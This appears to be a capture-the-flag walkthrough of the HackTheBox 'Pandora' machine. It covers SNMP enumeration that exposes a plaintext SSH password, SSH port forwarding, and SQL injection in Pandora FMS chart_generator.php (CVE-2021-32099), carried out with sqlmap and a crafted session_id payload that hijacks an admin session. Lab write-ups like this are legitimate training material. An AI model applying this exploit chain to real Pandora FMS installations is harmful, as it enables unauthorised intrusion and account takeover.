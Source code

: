 # Pandora

1. Nmap TCP and UDP port with script
````
# nmap -sS -p- pandora.htb -oG 10.10.11.136-sS
# nmap -sU -p- pandora.htb -oG 10.10.11.136-sU
````

````
# snmpwalk -v2c -c public 10.10.11.136:161 1.3.6.1.2.1.25.4.2.1 > 10.10.11.136-snmpwalk
````

~iso.3.6.1.2.1.25.4.2.1.5.864 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"~

~iso.3.6.1.2.1.25.4.2.1.5.1107 = STRING: "-u daniel -p HotelBabylon23"~

2. Login into remote server
````
# ssh daniel@10.10.11.136
````

3. Enumerates
````
daniel@pandora:~$ ss -nlpt
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process         
LISTEN         0               80                           127.0.0.1:3306                        0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                          0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*                            
LISTEN         0               511                                  *:80                                *:*                            
LISTEN         0               128                               [::]:22                             [::]:*                            
daniel@pandora:~$ curl http://127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
````

4. Login redirecting the remote port
````
# ssh -L80:127.0.0.1:80 daniel@10.10.11.136
````

5. Enumarates
````
v7.0NG.742_FIX_PERL2020
````
- [CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099)
- [CVE-2020-5844](https://nvd.nist.gov/vuln/detail/CVE-2020-5844)

6. Test the target system with malformed input values'    "   `   %    %%   --   /*   //    )    ;
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20%20%20%20%22%20%20%20`%20%20%20%%20%20%20%20%%%20%20%20--%20%20%20/*%20%20%20//%20%20%20%20)%20%20%20%20;

````sql
SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use 
near '" ` % %% -- /* // ) ;' LIMIT 1' at line 1 ('SELECT * FROM tsessions_php WHERE `id_session` = '' " ` % %% -- /* // ) ;' LIMIT 1') in
/var/www/pandora/pandora_console/include/db/mysql.php on line 114
````

````sql
sqlmap -u '127.0.0.1/pandora_console/include/chart_generator.php?session_id=*' --dbms=MySQL --sql-shell
sql-shell> SELECT * FROM tsessions_php WHERE `id_session` = ''OR `data` LIKE '%id_usuario|s:5:"admin";%' [2]:
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, gn7p2qba6310m05qn6iom3bvdf, 1642782084
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, hj8tgic0fv8hmmb19b3j851af5, 1642779787
````

7. Access the URL
````sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id='OR `data` LIKE '%id_usuario|s:5:"admin";%
````

and then your user will be logged
````
http://127.0.0.1/pandora_console/
````




[OID repository](http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2.1.5)
